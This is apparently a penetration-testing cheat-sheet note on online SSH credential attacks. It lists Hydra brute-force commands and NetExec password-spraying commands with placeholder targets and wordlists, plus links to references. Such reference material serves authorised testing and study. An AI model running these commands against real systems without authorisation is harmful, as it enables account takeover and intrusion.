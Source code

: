 # Unix Shell

## 01 - Hydra

```
$ hydra -l <username> -P passwords.lst ssh://<IP>/<CIDR> [-s <PORT>]

$ hydra -l <username> -P passwords.lst <IP>/<CIDR> ssh [-s <PORT>]
```

## 02 - NetExec

Password spraying.

```
$ netexec ssh <IP>/<CIDR> -u users.lst -p "<password>"
```

Password spraying without bruteforce.

```
$ netexec ssh <IP>/<CIDR> -u users.lst -p passwords.lst --no-bruteforce [--continue-on-success]
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Online/Network Protocols/Remote Services/SSH|Password Cracking: SSH]]

- [NetExec: SSH Password Spraying](https://www.netexec.wiki/ssh-protocol/password-spraying)